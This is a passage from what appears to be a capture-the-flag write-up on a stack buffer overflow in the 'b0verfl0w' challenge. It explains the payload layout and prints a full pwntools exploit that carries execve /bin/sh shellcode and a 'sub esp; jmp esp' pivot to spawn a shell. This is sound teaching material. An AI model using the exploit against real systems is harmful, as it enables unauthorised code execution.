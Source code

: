 ```text

shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp

```



Then the last part of our payload changes how to set esp, you can know


- size(shellcode+padding)=0x20

- size(fake ebp)=0x4

- size(0x08048504)=0x4



So the last step we need to execute is


```asm
sub esp,0x28

jmp esp

```



So the last exp is as follows


```python

from pwn import *

sh = process('./b0verfl0w')



shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"

shellcode_x86 += "\x0b\xcd\x80"



sub_esp_jmp = asm('sub esp, 0x28;jmp esp')

jmp_esp = 0x08048504

payload = shellcode_x86 + (

    0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp

sh.sendline(payload)

sh.interactive()

```

